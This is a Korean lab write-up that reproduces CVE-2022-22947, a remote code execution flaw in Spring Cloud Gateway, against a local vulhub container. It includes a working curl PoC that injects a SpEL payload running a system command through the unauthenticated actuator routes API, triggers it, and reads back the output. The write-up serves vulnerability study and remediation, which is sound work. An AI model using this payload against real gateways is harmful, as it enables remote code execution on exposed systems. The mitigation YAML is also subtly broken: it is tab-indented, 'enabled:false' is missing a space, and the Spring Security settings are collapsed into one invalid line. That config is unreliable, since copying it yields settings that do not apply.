






# CVE-2022-22947: Spring Cloud Gateway SpEL Code Injection RCE

---

## 1. 취약점 요약

Spring Cloud Gateway의 Gateway Actuator 엔드포인트가 인증 없이 외부에 노출되었을 때, 공격자는 악성 라우트 설정을 주입할 수 있습니다.

필터(Filter) 설정 내에 SpEL(Spring Expression Language) 표현식을 삽입하면, 게이트웨이가 라우팅 캐시를 새로고침(`/actuator/gateway/refresh`)하는 시점에 해당 표현식이 파싱 및 실행되어 root 권한으로 시스템 명령어를 원격 실행할 수 있습니다.

---

## 2. 환경 구성

### 2.1 Docker Compose 파일 (`docker-compose.yml`)

```yaml
version: '3'
services:
  gateway:
    image: vulhub/spring-cloud-gateway:3.1.0
    ports:
      - "8080:8080"
    restart: always
    container_name: cve-2022-22947-demo
```

### 2.2 환경 실행 명령어

```bash
sudo docker compose up -d
```



- Docker 컨테이너가 정상적으로 구동
- 포트 8080이 정상 매핑되었는지 확인 (`docker ps` 결과)
- 게이트웨이 서버가 준비 상태인지 확인

---

## 3. 취약 조건

### 필수 조건

1. **대상 컴포넌트**: Spring Cloud Gateway 3.1.0 이하 또는 3.0.6 이하 버전
2. **Gateway Actuator 활성화**: `/actuator/gateway/*` 엔드포인트가 활성화된 상태
3. **인증 부재**: 네트워크 및 애플리케이션 레벨에서 별도의 인증/인가 조치가 없음 (Spring Security 미구성)
4. **네트워크 접근**: 공격자가 게이트웨이 주소에 직접 접근 가능

### 영향도

- **Confidentiality**: High (시스템 정보 탈취 가능)
- **Integrity**: High (시스템 파일 조작 가능)
- **Availability**: High (서비스 중단 가능)

---

## 4. 재현 절차 & PoC 코드

### 1. 악성 SpEL 페이로드 주입 (라우트 생성)

Actuator의 라우팅 등록 API(`/actuator/gateway/routes/{routeId}`)를 대상으로 악성 라우트를 생성합니다.
필터 설정 내에 리눅스 `id` 명령어를 실행하고 결과를 응답 헤더에 바인딩하는 SpEL 페이로드가 포함되어 있습니다.

```bash
curl -i -X POST http://localhost:8080/actuator/gateway/routes/whs_test \
  -H "Content-Type: application/json" \
  -d '{"id": "whs_test", "filters": [{"name": "AddResponseHeader", "args": {"name": "Result", "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}}], "uri": "http://example.com", "order": 0}'
```



---

### 2. 게이트웨이 라우팅 캐시 동기화 (SpEL 트리거)

새로 생성된 악성 라우트 설정을 게이트웨이 메모리에 즉시 동기화합니다.
이 시점에 내부 파서에 의해 SpEL이 연산되면서 `id` 명령어가 원격으로 실행됩니다.

```bash
curl -i -X POST http://localhost:8080/actuator/gateway/refresh \
  -H "Content-Type: application/x-www-form-urlencoded"
```



---

### 3. 최종 실행 결과 확인

등록된 라우트의 세부 정보를 조회하여 실행된 `id` 명령의 결과 스트림이 헤더에 바인딩된 것을 확인합니다.

```bash
curl -X GET http://localhost:8080/actuator/gateway/routes/whs_test
```



💡 **Tip**: 응답을 보기 좋게 포맷팅 `jq`

```bash
curl -X GET http://localhost:8080/actuator/gateway/routes/whs_test | jq .
```



---

### 4. 침투 흔적 청소 (Clean-up)

```bash
curl -i -X DELETE http://localhost:8080/actuator/gateway/routes/whs_test
curl -i -X POST http://localhost:8080/actuator/gateway/refresh \
  -H "Content-Type: application/x-www-form-urlencoded"
```



---

## 5. 대응 방안

### 5.1 버전 업그레이드

| 현재 버전 | 업그레이드 버전 |
| --- | --- |
| Spring Cloud Gateway 3.1.x | **3.1.1 이상** |
| Spring Cloud Gateway 3.0.x | **3.0.7 이상** |

```xml
<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-starter-gateway</artifactId>
	<version>3.1.1</version>
</dependency>
```

### 5.2 임시 완화 조치

**application.yml에서 Actuator 비활성화:**

```yaml
management:
	endpoint:
		gateway:
			enabled:false
```

**또는 Spring Security로 인증 강제:**

```yaml
spring:security:user:name: adminpassword: secure_password
```

### 5.3 네트워크 레벨 대응

- WAF로 `/actuator` 엔드포인트 차단
- Actuator 포트를 내부 네트워크로만 제한
- 정기적인 의존성 취약점 스캔

---

## 6. 참고 자료

| 자료 | 링크 |
| --- | --- |
| CVE-2022-22947 공식 정보 | https://nvd.nist.gov/vuln/detail/CVE-2022-22947 |
| Spring Cloud Security Advisory | https://spring.io/security/cve-2022-22947 |
| Vulhub Repository | https://github.com/vulhub/vulhub |
